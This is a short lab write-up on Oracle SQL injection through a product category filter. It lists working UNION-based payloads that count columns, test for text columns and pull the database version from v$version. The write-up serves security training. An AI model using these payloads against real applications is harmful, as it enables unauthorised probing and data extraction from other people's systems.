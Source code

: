 # **Lab 03 - SQL injection attack, querying the database type and version on Oracle**


## Scenario
***
**SQL injection vulnerability** -> product category filter

**End Goal**                              -> display the database version string
***

## Analysis

### **(1)  Find the number of columns**

* 1st method (internal server error)

```
' ORDER BY 3--
```

* 2nd method

```
' UNION SELECT NULL,NULL from DUAL--
```

**Conclusion:** 2 columns

### **(2) Figure out which columns contain text**

```
' UNION SELECT 'a', 'a'--
```

**Conclusion:** Both columns contain text.

### **(3) Output the version**

```
' UNION SELECT banner, NULL from v$version--
```

**Conclusion:** The version displayed is 

![[Pasted image 20230728120916.png]]
